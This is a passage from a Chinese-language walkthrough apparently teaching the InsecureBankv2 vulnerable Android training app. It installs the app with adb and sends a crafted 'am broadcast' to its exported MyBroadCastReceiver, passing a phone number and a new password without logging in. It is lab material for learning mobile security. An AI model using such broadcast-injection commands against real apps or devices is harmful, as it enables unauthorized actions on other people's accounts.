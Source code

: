    ![21mybroadcastreceiver](img/21mybroadcastreceiver.png)

+  在模拟器上安装：`adb install InsecureBankv2.apk`

+ 打开应用 ，注意并不需要输入用户名和密码登录

+ 在命令行中打开`adb shell`

   
+ 输入下面的命令

    ```bash
    am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 --es newpass Dinesh@123!
    ```

    ![22am](img/22am.png)
